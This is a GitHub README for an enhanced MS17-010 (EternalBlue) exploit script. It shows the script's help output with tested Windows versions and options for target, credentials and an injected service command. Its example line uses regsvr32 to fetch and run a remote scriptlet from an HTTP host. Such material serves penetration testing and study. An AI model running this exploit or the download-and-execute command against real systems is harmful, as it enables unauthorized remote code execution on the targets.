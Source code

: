 # MS17-010_WORAWIT
All credit goes to Worawit: https://github.com/worawit/MS17-010/

This is my personal enhancement to zzz_exploit.py. Added functionality to dynamically pass users, passwords and commands to execute within a service.

This is also heavily inspired by Korey McKinley: https://lmgsecurity.com/manually-exploiting-ms17-010/

Full credit goes to Worawit/Sleepya and Korey McKinley!

## Help page output:
```
➜  MS17-010 git:(master) ✗ ./zzz_exploit.py --help                                                                                        
usage: zzz_exploit.py [-h] [-u] [-p] -t  [-c] [-P] [--version]

Tested versions:
1	Windows 2016 x64
2	Windows 10 Pro Vuild 10240 x64
3	Windows 2012 R2 x64
4	Windows 8.1 x64
5	Windows 2008 R2 SP1 x64
6	Windows 7 SP1 x64
7	Windows 2008 SP1 x64
8	Windows 2003 R2 SP2 x64
9	Windows XP SP2 x64
10	Windows 8.1 x86
11	Windows 7 SP1 x86
12	Windows 2008 SP1 x86
13	Windows 2003 SP2 x86
14	Windows XP SP3 x86
15	Windows 2000 SP4 x86

optional arguments:
  -h, --help        show this help message and exit
  -u , --user       Username to authenticate with
  -p , --password   Password for specified user
  -t , --target     Target for exploitation
  -c , --command    Command to add to service
  -P , --pipe       Pipe to connect to
  --version         show program's version number and exit
Example: python zzz_exploit -t 192.168.0.1 -c 'regsvr32 /s /n /u /i:http://192.168.0.1:9000/1EsrjpXH2pWdgd.sct scrobj.dll'
```
